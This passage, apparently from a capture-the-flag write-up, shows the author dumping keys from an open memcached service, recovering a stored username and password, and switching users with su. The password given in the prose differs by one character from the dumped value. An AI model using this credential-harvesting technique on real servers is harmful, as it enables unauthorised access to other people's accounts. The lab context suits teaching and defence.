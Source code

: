 

I can see what's in the cache with `stats cachedump x y`, where `x` is
the slab number I want and`y` is the number of keys I want to dump,
where 0 is all.



    stats cachedump 1 0
    ITEM link [21 b; 0 s]
    ITEM user [5 b; 0 s]
    ITEM passwd [9 b; 0 s]
    ITEM file [7 b; 0 s]
    ITEM account [9 b; 0 s]
    END



Obviously `user` and `passwd` seem the most interesting, but I'll dump
each with `get`:



    get link
    VALUE link 0 21
    https://hackthebox.eu
    END
    get user
    VALUE user 0 5
    luffy
    END
    get passwd
    VALUE passwd 0 9
    0n3_p1ec3
    END
    get file
    VALUE file 0 7
    nothing
    END
    get account
    VALUE account 0 9
    afhj556uo
    END



I can quit with Ctrl+\], and then enter `quit` at the prompt.

### su

`su - luffy` works with this password (0ne_p1ec3):



    ash@cache:~$ su - luffy
    Password: 
    luffy@cache:~$


